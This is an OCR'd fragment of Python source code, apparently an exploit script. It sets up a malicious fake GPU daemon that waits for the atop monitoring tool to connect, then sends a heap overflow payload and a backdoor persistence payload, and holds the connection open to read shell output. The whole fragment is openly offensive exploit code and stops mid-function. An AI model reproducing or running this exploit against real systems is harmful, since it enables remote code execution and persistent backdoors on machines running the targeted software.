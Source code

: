     def start_malicious_daemon(self):
        """
        Start malicious GPU daemon to exploit automatic connections
        """
        def daemon_handler():
            try:
                server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
                server_socket.bind(('0.0.0.0', self.daemon_port))
                server_socket.listen(5)
                
                print(f"[+] Phase 1: Malicious GPU daemon listening on port {self.daemon_port}")
                
                while True:
                    try:
                        client_socket, client_address = server_socket.accept()
                        print(f"[+] ATOP connected from {client_address}")
                        
                        # Receive initial request
                        request = client_socket.recv(1024)
                        print(f"[+] Received: {request[:50]}")
                        
                        # Send malicious GPU payload
                        payload = self.create_advanced_gpu_payload()
                        print(f"[+] Phase 2: Sending heap overflow payload ({len(payload)} bytes)")
                        
                        client_socket.send(payload)
                        
                        # Wait for exploitation
                        time.sleep(1)
                        
                        # Send additional persistence payload
                        persistence = b"PERSIST:BACKDOOR:" + b"X" * 500 + b"\n"
                        client_socket.send(persistence)
                        
                        print("[+] Phase 3: Exploitation payloads sent")
                        self.exploit_success = True
                        
                        # Keep connection for shell access
                        try:
                            while True:
                                data = client_socket.recv(1024)
                                if not data:
                                    break
                                print(f"[+] Shell output: {data}")
                        except:
                            pass
                            